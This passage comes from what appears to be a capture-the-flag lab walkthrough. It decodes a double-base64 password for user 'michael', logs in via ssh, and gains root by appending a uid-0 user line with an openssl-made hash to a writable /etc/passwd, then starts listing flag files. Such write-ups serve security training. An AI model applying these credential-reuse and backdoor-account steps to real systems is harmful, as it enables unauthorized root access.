 We see that there is a password stored for a user named `michael`. Lets decode the password as it seems to be `base64` encoded.

```bash
$ echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d
SG9ja1N5ZG5leUNlcnRpZnkxMjM=
```

It seems that the string is still `base64` encoded. Lets decode it again.

```bash
$ echo 'SG9ja1N5ZG5leUNlcnRpZnkxMjM=' | base64 -d
HockSydneyCertify123
```

> We now have a password for user `michael` (`HockSydneyCertify123`) which might also works to access his `ssh` account.
{: .prompt-info }

Now we are logging in via ssh using `michael:HockSydneyCertify123`
```bash
$ ssh michael@192.168.126.58
michael@192.168.126.58's password: 
[michael@snookums ~]$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

> It worked!
{: .prompt-info }

We are now user `michael` but the goal is to gain `root` access to the system.  
So, we now check some basic escalation techniques to check if we can elevate our privileges to `root`.

> The file `/etc/passwd` is writeable.
{: .prompt-info }

We are now creating a hash for a new user with `root` privileges we add to the system.
```bash
$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```
We are appending the following line to the file `/etc/passwd`.  
  
`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`  
  
Now we can switch to our new created user (`new:123`).
```bash
[michael@snookums tmp]$ su new
Password: 
[root@snookums tmp]# whoami
root
```

> Root access!
{: .prompt-info }

## get the flags
### get first flag
```bash
bash-4.2$ cd /home
cd /home
bash-4.2$ ls
ls
michael
bash-4.2$ cd michael
cd michael
[michael@snookums ~]$ ls
local.txt
```